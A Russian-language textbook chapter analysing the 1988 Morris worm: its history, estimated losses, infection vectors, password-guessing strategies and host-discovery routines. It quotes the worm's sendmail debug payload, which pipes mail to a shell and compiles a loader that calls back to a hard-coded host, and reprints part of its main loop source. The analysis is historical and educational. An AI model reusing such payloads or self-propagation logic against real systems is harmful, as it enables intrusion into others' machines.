

Безопасность >>>
АТАКА НА INTERNETЧервь
В этом разделе мы перейдем к подробному рассмотрению не только самого известного случая нарушения безопасности Сети, но и самого крупного инцидента в области компьютерной безопасности вообще - Internet worm (вирус Морриса). Более того, он представлял собой не просто единичное вторжение в некоторый компьютер, а дал ответ на давний вопрос: могут ли не в абстрактных условиях существовать саморепродуцирующиеся программы? То, что теоретически это возможно, признавалось почти всеми, А подтвердив возможность создания такой программы, инцидент дал толчок к появлению целой отрасли компьютерной безопасности - компьютерной вирусологии (к тому времени уже существовали единичные вирусы и на персональных компьютерах - саморепродуцирующиеся в пределах одного компьютера). Остается открытым (как мы увидим далее, исходя из существования схожих проблем безопасности UNIX и в наши дни) вопрос, почему же по сей день известен только один пример сетевого червя. Видимо, дело в том, что в странах с развитой компьютерной и сетевой инфраструктурой на сегодняшний день действует (во многом, кстати, вследствие вируса Морриса) очень жесткое законодательство против компьютерных преступлений такого рода (тем более, что написание червя не приносит никакой материальной выгоды, только сомнительную известность), а в странах, где подобные законы отсутствуют, нет и доступа широких кракерских масс к глобальным компьютерным сетям. Отсюда можно сделать вывод, что в ближайшем будущем, когда распространенность сетей достигнет необходимого уровня, нас ждут примеры новых сетевых червей, сделанных хакерами этих стран, и Россия здесь может занять не последнее место. К 1988 году глобальная сеть Internet уже почти сформировалась, и практически все услуги сегодняшнего дня (кроме WWW) использовались и тогда. С другой стороны, в хакерских и околохакерских кругах скопилось достаточно информации о брешах в системах безопасности и способах несанкционированного проникновения в удаленные компьютеры. Критическая масса была накоплена, и она не могла не взорваться. Итак, в начале ноября 1988 года Сеть быда атакована так называемым сетевым червем, впоследствии получившим название "вирус Морриса" - по имени его создателя, студента Корнельского университета Роберта Морриса-младшего. Сетевым червем называют разновидность компьютерных вирусов, имеющих способность к самораспространению в локальной или глобальной компьютерной сети. Для этого червь должен обладать специфическими функциями:
В сетевом компьютерном мире имя Роберта Морриса было известно давно. Еще в 1985 году компания AT&T Bell Labs опубликовала технический отчет, посвященный предсказанию TCP-идентификатора в версии 4.2 BSD UNIX [30]. Этот отчет был написан... Робертом Моррисом-старшим - отцом автора червя. Моррис-старший в то время занимал должность научного руководителя NCSC (National Computer Security Center - Национальный центр компьютерной безопасности) - эксперта по компьютерной безопасности. Моррис-старший много лет проработал в лаборатории AT&T Bell, где в 60-х годах принимал участие в разработке программ Core Wars. К этому необходимо добавить, что лето 1988 года Моррис-младший провел в той же лаборатории, где был занят переписыванием программ системы безопасности для компьютеров, работающих под управлением ОС UNIX. Кстати, инцидент с программой-червем практически никак не сказался на карьере Морриса-старшего. В начале 1989 года он был избран в специальный консультативный совет при Национальном институте стандартов и министерстве торговли. В задачу этого совета входила выработка заключений и рекомендаций по вопросам безопасности вычислительных систем правительственных органов США, а также решение вопросов, возникающих при разработке и внедрении стандартов защиты информации. Червь Морриса инфицировал 6 200 компьютеров. Подсчитанные потери, хотя формально червь не наносил какого-либо ущерба данным в инфицированных хостах, были разделены на прямые и косвенные. К прямым потерям относились:
Прямые потери были оценены более чем в 32 000 000 долларов США. К косвенным потерям были отнесены:
Косвенные потери оценивались более чем в 66 000 000 долларов США. Общие затраты составили 98 253 260 долларов США. Далее мы подробно опишем структуру, механизмы и алгоритмы, применяемые червем. Было решено свободно распространять их, в отличие от исходных текстов, полученных в результате дизассемблирования. Однако по истечении 10 лет такое ограничение потеряло свою актуальность (воспользоваться сегодня ими все равно не удастся), и необходимую информацию можно найти в Internet. Большая часть материала этого раздела взята из [21,32]. Прямые потери были оценены более чем в 32 000 000 долларов США. Стратегии вирусаДля проникновения в компьютеры вирус использовал как алгоритмы подбора пароля (см. ниже), так и "дыры" в различных коммуникационных программах, которые позволяли ему получать доступ без предъявления пароля. Рассмотрим подробнее такие "дыры". Отладочный режим в программе sendmail Вирус использовал функцию "debug" программы sendmail, которая устанавливала отладочный режим для текущего сеанса связи. Дополнительная возможность отладочного режима заключается в том, чтобы посылать сообщения, снабженные программой-получателем, которая запускается на удаленной машине и осуществляет прием сообщения. Эта возможность, не предусмотренная протоколом SMTP, использовалась разработчиками для отладки программы и в рабочей версии была оставлена по ошибке. Таким образом, налицо типичный пример атаки по сценарию 1. Спецификация программы, которая будет выполняться при получении почты, содержится в файле псевдонимов (aliases) программы sendmail или в пользовательском файле .forward. Такая спецификация используется программами, обрабатывающими или сортирующими почту, и не должна применяться самой программой sendmail. В вирусе эта программа-получатель содержала команды, убирающие заголовки почты, после чего посылала остаток сообщения командному интерпретатору, который создавал, компилировал и выполнял программу на языке С, служившую "абордажным крюком", и та, в свою очередь, принимала оставшиеся модули из атакующей машины. Вот, что передавал вирус через SMTP-соединение: debug mail from: </dev/null> rcptto:<"|sed-e '1,/^$/d' | /bin/sh ; exit 0"> data cd /usr/tmp cat >x14481910.с <<'EOF' <текст программы l1.c> EOF cc -о х14481910 х14481910.с;х14481910 128.32.134.16 32341 8712440; rm -f x14481910 x14481910.c . quit Вирус заражал компьютеры двух типов - VAX и Sun, поэтому пересылались двоичные коды для каждой архитектуры, оба запускались, но исполняться мог только один. В компьютерах других архитектур программы не могли функционировать, хотя и поглощали системные ресурсы в момент компиляции. Ошибка в демоне fingerd Другой позволявший вирусу распространяться изъян, также относящийся к типовому сценарию 1, находился в программе fingerd. Данная программа содержала в себе фрагмент кода примерно следующего вида:
{
char buf[512]:
...
gets(buf);
}
Налицо классическая ситуация переполнения буфера (впрочем, тогда она, видимо, еще не была классикой). Вирус передавал специально подготовленную строку из 536 байт, которая вызывала в конечном итоге функцию execve("/bin/sh", 0, 0). Как видно, за 10 лет технологии переполнения буфера не сильно изменились. Указанным способом атаковались только машины VAX с операционной системой 4.3BSD; на компьютерах Sun, использующих SunOS, такие атаки терпели неудачу. Удаленное выполнение Вирус использовал протокол удаленного выполнения программ (rexec), который требовал для выполнения программы на удаленной машине только имя пользователя и незашифрованный пароль. Для этого в программе имелись имена и пароли пользователей локального (атакующего) хоста, потому что многие пользователи имеют одинаковые имена и пароли на всех машинах в сети. Эта атака, как и следующая, относится уже к сценарию 4. Удаленный командный интерпретатор и доверенные хосты Вирус пытался использовать программу запуска удаленного интерпретатора (rsh) для атаки других машин с полученным именем и паролем текущего пользователя либо вообще без аутентификации, если атакуемая машина "доверяла" данной. (Файлы /etc/hosts.equiv и .rhosts содержат список машин, "доверяющих" данной, то есть доступных для запуска rsh с этой машины.) Он пробовал три различных имени для rsh:
Удаленный интерпретатор по своей функции напоминает программу удаленного исполнения, но обладает более дружественным интерфейсом, так как дистанционно запускается командный интерпретатор, а не функция ехес. Маскировка действий вируса Для сокрытия своих действий вирус осуществлял ряд мер:
Ошибки в коде вируса Вирус содержал некоторое количество ошибок - от очень тонких и почти не влияющих на его работу, до грубых и неуклюжих. Остановимся на них подробнее. Предотвращение повторного заражения Участок кода для предотвращения повторного заражения содержал много ошибок. Это имело решающее значение: многие машины заражались повторно, нагрузка на системы и сеть увеличивалась и становилась весьма ощутимой (некоторые машины даже не могли с ней справиться). Вирус, "проверяющий" наличие других вирусов, пытался связаться с портом 23357, чтобы установить контакт с "отвечающим" вирусом. Если это не удавалось, вирус предполагал, что других вирусов нет, и сам становился "отвечающим". Если связь устанавливалась, "проверяющий" посылал магическое число 8 865 431 и в течение 300 секунд ожидал другое магическое число 1 345 688. Если число было неверным, "проверяющий" разрывал связь. Потом он выбирал случайное число и посылал "отвечающему". Затем в течение 10 секунд ожидал возврата другого случайного числа, после чего складывал его с посланным. Если сумма оказывалась четным числом, то "проверяющий" устанавливал значение переменной pleasequit (см. ниже). Иначе говоря, каждый раз из двух вирусов один "смертник" выбирался случайно. После окончания (успешного или неудачного) сеанса связи "проверяющий" "засыпал" на 5 секунд и пытался стать "отвечающим". Для этого он создавал ТСР-сокет, устанавливал его параметры для межпроцессной связи и подключал его к порту 23357. Этот код содержал множество ошибок, и приходится только удивляться, что oн вообще работал. Ошибки проявлялись при следующих условиях:
Критичная ошибка содержалась в коде, когда вирус решал, что должен завершиться. Все, что он делал, - устанавливал переменную pleasequit. Это не давало эффекта до тех пор, пока вирус:
Так как вирус удалял все временные файлы, то его присутствие в машине не мешало ее повторному заражению. Многократно зараженные машины распространяли вирус быстрее, вероятно, пропорционально числу копий вируса на машине, чему есть две причины:
Таким образом, вирус распространялся гораздо быстрее, чем ожидал автор, и был обнаружен именно по этой причине. Использование эвристического подхода для определения целей Чтобы не тратить время, пытаясь заразить систему, отличную от UNIX, вирус иногда устанавливал связь с предполагаемой мишенью при помощи telnet или rsh; если это не удавалось, то вирус и не пытался ее заразить. Благодаря этому некоторые системы избежали заражения, так как, хотя и поддерживали электронную почту, отказывали в доступе telnet или rsh. Неиспользованные возможности вируса Вирус не использовал некоторые очевидные возможности:
Подробный анализ структуры и процедур вируса Далее вирус описывается очень подробно, процедура за процедурой (рис. 9.3).
 Рис. 9.3. Структура вируса Морриса Имена Ядро вируса состоит из двух бинарных модулей: один для машин VAX-архитектуры, другой для Sun-архитектуры. Это объектные файлы, содержащие списки имен своих внутренних процедур. Удивительно, что имена осмысленны (например, doit или cracksome), ведь такой простой метод, как случайный выбор имен процедур, мог бы сильно усложнить анализ вируса. Обработка аргументов командной строки Вирус мог запускаться с аргументом "-р NNN", где NNN - десятичное число, которое является идентификатором породившего процесса. Впоследствии вирус использовал это число для удаления данного процесса с целью "заметания следов". Остальные аргументы командной строки являлись именами файлов, которые он пытался загрузить. Если не удавалось загрузить хотя бы один из них, вирус заканчивал работу. Если был задан аргумент "-р NNN", то он также стирал файлы и потом пытался уничтожить свой образ на диске. Затем вирус предпринимал следующие действия (причем, если какие-то из них терпели неудачу, он завершался):
Если был задан параметр "-р", программа закрывала все файлы, открытые породившим процессом. Потом, для маскировки способа запуска вируса, стирался массив аргументов. Вирус сканировал все сетевые интерфейсы, получал статус и адреса каждого интерфейса. Вирус уничтожал процесс, заданный параметром "-р NNN", и перед этим менял группу (GID) текущего процесса, чтобы не погибнуть вместе с ним. Далее, если все эти действия заканчивались удачно, он выполнял процедуру doit, которая совершала остальную работу. Процедура doit Процедура doit состоит из двух частей - инициализации и основного цикла. В первой части инициализируется генератор случайных чисел; кроме того, вирус сохраняет время для последующего определения продолжительности работы в системе. Затем вызывается процедура hg. Если она оканчивается неудачно, вызывается процедура ha. После этого с вероятностью шесть седьмых проверяется, существует ли на данной машине другая работающая копия вируса, если да, то одна из них "погибает". Иначе говоря, только в одном случае из семи должно было бы происходить размножение вируса. На последнем этапе процедура инициализации должна была по замыслу автора посылать байт по адресу 128.32.137.13, соответствующему ernie.berkeley.edu, в порт 11357. Этого не произошло ни разу, так как автор неправильно использовал вызов функции. Основной цикл doit содержал наиболее активные компоненты вируса. В нем вызывается процедура cracksome, пытающаяся найти компьютеры, в которые можно проникнуть. Далее, после ЗО-секундного ожидания, во время которого происходит попытка связаться с другими вирусами, вирус пытается проникнуть в другие машины. После осуществления атак он разветвляется, создавая две копии. Первоначальная копия (процесс-родитель) уничтожается, оставляя процессу-потомку всю информацию. Затем процедуры hd, hl и ha ищут машины для заражения, и программа ждет еще 2 минуты. Наконец, перед возвратом на начало цикла проверяется значение глобальной переменной pleasequit. Если она установлена и вирус уже перебрал более 10 слов из собственного словаря паролей, работа завершается. Таким образом, принудительная установка pleasequit не дает эффекта моментального завершения всех вирусов. Вот немного переделанный для лучшего понимания исходный текст процедуры doit:
static doit()
{
long key, time1, timeO:
time(&key);
srandom (key):
timeO = key:
if (hg() == 0 && hl() == 0)
ha();
if ((random() %7) != 3)
checkother();
report_breakin():
cracksome();
other_sleep(30):
while (1)
{
cracksome();
if(fork()>0)
exit(O);
if(hg()==0 && hi()==0 && ha()==0)
hl();
other_sleep(120);
time(&time1);
if (timel - time0 >= 60*60*12)
h_clean();
if (pleasequit && nextw > 0)
exit(O);
}
}
Процедуры подбора пароля Процедуры подбора пароля являются "мозгом" вируса. Cracksome - процедура, применяющая различные стратегии для проникновения в систему путем подбора паролей пользователей. Автором допускалось добавление новых стратегий при дальнейшем развитии вируса. Вирус последовательно пробует каждую стратегию. Фаза 0 Это предварительный этап, на котором определяется список возможных мишеней атаки (имена и сетевые адреса компьютеров, имена и пароли пользователей). На этом этапе читается файл /etc/hosts.equiv в поисках имен машин, которые могли быть заражены. Этот файл содержит информацию о том, какие машины "доверяют" данной. Логично предположить, что пользователи этой машины могут быть пользователями машин из этого списка. После этого читается файл .rhost, представляющий собой список машин, которым данная машина "доверяет" привилегированный доступ. Заметим, что это не позволяет получить доступ к удаленной машине и может служить только возможным адресом для атаки. Часто системные администраторы запрещают доступ к этому файлу, из-за чего вирус не может его прочитать, хотя .rhosts очень часто является частью /etc/hosts.equiv. В конце фазы 0 вирус читает файл паролей /etc/passwd. Информация из этого файла используется для нахождения персональных .forward-файлов, и те просматриваются с целью поиска имен машин, которые можно атаковать. Кроме того, из него извлекаются входные имена пользователей, их зашифрованные пароли и полные имена. После того как вирус просканирует весь файл, он перейдет к перебору стратегий. Стратегия 1 Это самая простая стратегия, способная определить только примитивные пароли. Пусть файл etc/passwd содержит строчку user:<хеш пароля>:100:5:John Smith:/usr/user:/bin/sh Тогда в качестве пароля предлагаются следующие варианты:
Все эти атаки применялись к 50 паролям, накопленным во время фазы 0. Так как вирус пытался угадать пароли всех пользователей, он переходил к стратегии 2. Стратегия 2 Стратегия 2 использует внутренний список из 432 возможных паролей, являющихся, с точки зрения автора вируса, наиболее подходящими кандидатами на эту роль. Список перемешивается в начале проверки для того, чтобы пароли подбирались в случайном порядке. Здесь же проверяется значение переменной pleasequit, но так, чтобы перед выходом вирус "просмотрел" не менее 10 вариантов. Когда список слов исчерпан, вирус переходит к стратегии 3. Стратегия 3 Эта стратегия использует для подбора пароля файл /usr/dict/words, содержащий около 24 000 слов и используемый в системе 4.3BSD (и других) как орфографический словарь. Если слово начинается с прописной буквы, то проверяется и вариант со строчной буквой. Процедуры поиска удаленных машин Это набор процедур с начинающимися на "h" именами, выполняющих задачу поиска имен и адресов удаленных машин. Процедура hg вызывает процедуру rt_init, которая сканирует таблицу маршрутов и записывает все адреса доступных шлюзов (gateways) в специальный список. Затем процедура hg пытается применить процедуры атаки через rsh, finger и sendmail. Процедура ha связывается с каждым шлюзом из списка, полученного процедурой hg, через TCP-порт номер 23, чтобы обнаружить те машины, которые поддерживают telnet. Список перемешивается случайным образом, после чего для каждой машины из этого списка вызывается процедура hn (то есть вирус пытается заразить все машины в подсетях этого шлюза). Процедура hl извлекает номер сети - первый компонент сетевого адреса из всех адресов текущей машины, и для каждого полученного адреса вызывает процедуру hn с этим адресом в качестве аргумента (иначе говоря, атакуются все локально подключенные подсети). Процедура hi пытается атаковать каждую машину из списка, находящегося в файле /etc/hosts.equiv, через rsh, finger и sendmail. Процедура hn получает номер сети в качестве аргумента. Если этот номер совпадает с номером сети одной из машин, подключенных к данной, процедура завершается. Для остальных адресов она пытается угадать адреса шлюзов путем перебора всех возможных адресов (<номер сети>.[1-8].0.[1-255]). Этот список перемешивается случайным образом, после чего процедура пытается атаковать до 12 машин из списка, используя rsh, finger и SMTP. Если машина не поддерживает связь через TCP-порт 514 (rsh), то hn не пытается атаковать ее. После первой успешной атаки процедура завершается. Порядок работы Все эти процедуры вызываются в главном цикле. Если первая процедура завершилась успешно, то остальные не вызываются. Каждая процедура возвращается после того, как она сумела атаковать одну машину. Затем вызывается hi, которая пытается заразить удаленные машины, найденные cracksome. Если hi терпит неудачу, то вызывается ha, которая старается проникнуть в удаленную машину по случайно угаданному адресу связи. Это демонстрирует, что вирус предпочитал поражать сначала шлюзовые машины, а затем распространяться на присоединенные к ним сети, вместо того чтобы заражать машины, минуя шлюзы. Если hg, hi и ha терпят неудачу, то вызывается hi, которая похожа на ha, но подбирает адрес с помощью сетевого адреса текущей машины. Анализ кода этих процедур также свидетельствует о наличии ошибок. Процедура l1.с - "абордажный крюк" Все процедуры атаки использовали эту короткую процедуру для пересылки основной части вируса. Первое, что она делает, - удаляет свой образ на диске. Затем она проверяет наличие трех аргументов (если их нет, то завершается), после чего закрывает все файловые дескрипторы и разветвляется на два процесса (если это не удается, она также завершается). Процесс-родитель завершается, не оставляя никаких связей с порожденным процессом. Далее процедура (процесс-потомок) создает TCP-соединение с заражаемой машиной по адресу, заданному в качестве первого аргумента, через порт, заданный вторым аргументом. Затем она пересылает на зараженную машину "магическое число", заданное третьим аргументом. Каждый аргумент стирается сразу после его использования. Далее стандартный ввод-вывод переназначается на канал связи с зараженной машиной. Следующий этап - считывается длина и имя каждого файла, составляющего вирус. Каждый файл пересылается с зараженной машины на текущую. При возникновении сбоев все файлы удаляются. По окончании цикла пересылки файлов запускается Bourne Shell (sh), замещающий программу l1 и получающий команды с зараженной машины. Может быть, после такого детального рассмотрения алгоритмы, применяемые червем Морриса, кажутся неуклюжими и запутанными, вероятно, что-то можно было сделать проще и эффективнее. Тем не менее они реализовывали все процедуры, необходимые настоящему сетевому вирусу, чего за 10 лет никому повторить не удалось - ни в рамках UNIX-архитектуры, ни в какой другой. Сегодня "троянские" программы, попадающие к незадачливому пользователю с электронной почтой и т.п., который сам их запускает и инициирует таким образом дальнейшее размножение, иногда называют "новыми сетевыми червями" (особенно в ОС семейства Windows). Но "троянцы" не могут размножаться без участия человека и не являются сетевыми червями по определению.
|